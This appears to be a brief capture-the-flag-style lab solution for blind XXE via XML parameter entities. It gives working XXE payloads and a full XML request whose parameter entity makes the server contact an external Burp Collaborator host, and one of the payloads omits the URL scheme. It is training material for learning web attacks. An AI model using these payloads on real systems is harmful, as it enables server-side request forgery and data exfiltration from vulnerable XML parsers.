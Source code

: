 # Blind XXE with out-of-band interaction via XML parameter entities
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://2ruibhhghox7cp0i7q0y71p9e0ks8h.burpcollaborator.net"> %xxe; ]>

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "2ruibhhghox7cp0i7q0y71p9e0ks8h.burpcollaborator.net"> %xxe; ]>

Final XML request:
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://2ruibhhghox7cp0i7q0y71p9e0ks8h.burpcollaborator.net"> %xxe; ]>
  <stockCheck>
  <productId>2</productId><storeId>2</storeId></stockCheck>
